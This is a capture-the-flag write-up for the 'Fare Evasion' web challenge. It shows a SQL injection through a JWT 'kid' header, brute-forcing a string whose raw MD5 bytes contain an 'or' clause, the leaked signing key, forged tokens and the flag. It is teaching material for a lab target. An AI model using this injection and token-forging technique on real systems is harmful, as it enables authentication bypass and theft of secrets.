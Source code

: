 # Fare Evasion
**Category:** Web

**Points:** 370

**Solves:** 173

### Solution Overview

We can achieve SQL injection through the `kid` (key id) header of the JWT cookie. We change the JWT header `kid` to `32d4627866e846c346fee3659eaec1aa`, a brute-forced random string that, when MD5 hashed then encoded with Latin-1, matches the regex `.*'[oO][rR]'[1-9].*` (to allow for SQL injection). We then sign it with the provided key: `a_boring_passenger_signing_key_?`.

Using our new token, `eyJhbGciOiJIUzI1NiIsImtpZCI6IjMyZDQ2Mjc4NjZlODQ2YzM0NmZlZTM2NTllYWVjMWFhIiwidHlwIjoiSldUIn0.eyJ0eXBlIjoicGFzc2VuZ2VyIn0.nHd3DtP9PwzT6Mm5wR8lwamie0kXOFpfjq9v-3AN-Vc`, we perform an SQL injection and access the conductor key: `conductor_key_873affdf8cc36a592ec790fc62973d55f4bf43b321bf1ccc0514063370356d5cddb4363b4786fd072d36a25e0ab60a78b8df01bd396c7a05cccbbb3733ae3f8e`.

Finally, we sign our token with the conductor key, getting `eyJhbGciOiJIUzI1NiIsImtpZCI6IjMyZDQ2Mjc4NjZlODQ2YzM0NmZlZTM2NTllYWVjMWFhIiwidHlwIjoiSldUIn0.eyJ0eXBlIjoicGFzc2VuZ2VyIn0.u_Y5T7Ctm74HViemCkIAbjAH2u_g4eHUBtG_pC6OVUQ`, which gives us the flag.

![Flag](/images/FareEvasionFlag.png)

### Detailed Solution

1. **Initial Investigation:**
    Visiting the website, we encounter a button that triggers a pop-up instructing us to sign our own tickets. It also provides a hashed string in Latin-1 and a secret, `a_boring_passenger_signing_key_?`. This suggests the use of JWT tokens.

    ![Website](/images/FareEvasionWebsite.png)

2. **Examining the Script:**
    At the bottom of the page source there is this script:
    ```js
    <script>
        async function pay() {
            // i could not get sqlite to work on the frontend :(
            /*
                db.each(`SELECT * FROM keys WHERE kid = '${md5(headerKid)}'`, (err, row) => {
                ???????
            */
            const r = await fetch("/pay", { method: "POST" });
            const j = await r.json();
            document.getElementById("alert").classList.add("opacity-100");
            // todo: convert md5 to hex string instead of latin1??
            document.getElementById("alert").innerText = j["message"];
            setTimeout(() => { document.getElementById("alert").classList.remove    ("opacity-100") }, 5000);
        }
    </script>
    ```
    This script sends a POST request to `/pay` and displays the response. There is a 'todo' comment at the bottom which hints towards the solution but I'll get to that later. Notably, the comment reveals an SQL query:
    ```sql
    SELECT * FROM keys WHERE kid = '${md5(headerKid)}'
    ```
    Presumably our goal is to find some way of getting SQL injection.


3. **JWT Token Analysis:**
    We have a JWT cookie, but its signature is invalid. 
    
    ![JWT Cookie](/images/FareEvasionCookie.png)
    ![JWT invalid](/images/FareEvasionJWTinvalid.png)

    However, using the provided secret, `a_boring_passenger_signing_key_?`, we can sign it:

    ![JWT valid](/images/FareEvasionJWTvalid.png)

4. **Modifying `kid` for SQL Injection:**
    By setting the JWT header `kid` to 'a' and paying, we notice the pop-up changes:

    ![New Pop Up](/images/FareEvasionJWTa.png)

    This confirms that the `kid` is influencing the SQL query.  I didn't know in the backend whether or not the `kid` string would be inserted in the query or if the code would call `md5(headerKid)` directly. If it was inserted in, a basic `' or 1 --` should work. It didn't end up working but when trying different variations `' or 1;` created a suprising pop up.

    ![Null Pop Up](/images/FareEvasionNull.png)

    It's all coming together now, the md5 hash is encoded in latin-1 like the hint said. That's why the original hashed value looks so weird. Sure enough, this md5 hash to latin-1 contains a null char.

    ![hashed null char](/images/FareEvasionNullHash.png)

5. **Finding an Exploit String:**
    This would require a lot of luck so we should try to make our injection as small as possible, something like `...'or'...` would be nice. Turns out string truthiness in SQL is a bit [weird](https://stackoverflow.com/questions/12221211/how-does-string-truthiness-work-in-mysql) so we ended up using `.*'[oO][rR]'[1-9]`. `'` to close off the original string. Any capitalization of 'or'. `'` to start the second string. A non zero number for truthiness. Finally, `.*` for any prefix. (Technically I also need to make sure that there are no null chars and no other single quotes in my hash but those are rather unlikely and worst case is just running my script again).

    We brute-force random strings, hash them using MD5, convert them to Latin-1, and check if they match the regex pattern. After around 10 minutes, we find a suitable string:

    ```py
    def check_substring_and_nulls(md5_hex):
        latin1_string = bytes.fromhex(md5_hex).decode('latin-1', errors='ignore')
        if re.match(".*'[oO][rR]'[1-9]", latin1_string) and '\x00' not in latin1_string:
            return True
        return False
        
    md5_hex = md5_hash_string(random_string)
    if check_substring_and_nulls(md5_hex):
        ...
    ```

    Console output:
    ```
    on iter 501000000
    on iter 502000000
    Random String: 32d4627866e846c346fee3659eaec1aa
    MD5 Hex: 274f72273279e3bf6f93443f39a42e88
    Latin-1 String: 'Or'2yã¿oD?9¤.
    ```

6. **Performing the Injection:**
    Setting the JWT header `kid` to `32d4627866e846c346fee3659eaec1aa`, we perform the injection and receive the conductor key:

    ![Website injected](/images/FareEvasionInjectedAlert.png)

    Full message:
    ```json
    {
        "message": "Key isn't passenger or conductor. Please sign your own tickets. \nhashed \u00f4\u008c\u00f7u\u009e\u00deIB\u0090\u0005\u0084\u009fB\u00e7\u00d9+ secret: conductor_key_873affdf8cc36a592ec790fc62973d55f4bf43b321bf1ccc0514063370356d5cddb4363b4786fd072d36a25e0ab60a78b8df01bd396c7a05cccbbb3733ae3f8e\nhashed _\bR\u00f2\u001es\u00dcx\u00c9\u00c4\u0002\u00c5\u00b4\u0012\\\u00e4 secret: a_boring_passenger_signing_key_?",
        "success": false
    }
    ```
    Extracted conductor key: `conductor_key_873affdf8cc36a592ec790fc62973d55f4bf43b321bf1ccc0514063370356d5cddb4363b4786fd072d36a25e0ab60a78b8df01bd396c7a05cccbbb3733ae3f8e`

7. **Final JWT Token:**
    Signing our JWT with the conductor key:

    ![Sign with conductor key](/images/FareEvasionConductorKey.png)

    Using this new token on the website gives us the flag:

    ![Flag](/images/FareEvasionFlag.png)

### Script

```python
import random
import string
import hashlib
import re

letters = string.ascii_letters + string.digits

def md5_hash_string(input_string):
    """Hash the input string using MD5 and return the hexadecimal digest."""
    md5_hash = hashlib.md5(input_string.encode('utf-8'))
    return md5_hash.hexdigest()

def check_substring_and_nulls(md5_hex):
    """Convert MD5 hex digest to Latin-1 and check for substring and null characters."""
    latin1_string = bytes.fromhex(md5_hex).decode('latin-1', errors='ignore')
    if re.match(".*'[oO][rR]'[1-9]", latin1_string) and '\x00' not in latin1_string:
        return True
    return False

def main():
    random_string = ''.join(random.choice(letters) for _ in range(10))
    for i in range(1000000000):
        md5_hex = md5_hash_string(random_string)
        if check_substring_and_nulls(md5_hex):
            print(f"Random String: {random_string}")
            print(f"MD5 Hex: {md5_hex}")
            latin1_string = bytes.fromhex(md5_hex).decode('latin-1', errors='ignore')
            print(f"Latin-1 String: {latin1_string}")
            break
        if i % 1000000 == 0:
            print("on iter", i)
        # Use previous hash instead of new random string to optimize speed
        random_string = md5_hex

if __name__ == "__main__":
    main()
```

### Flag

```plaintext
uiuctf{sigpwny_does_not_condone_turnstile_hopping!}
```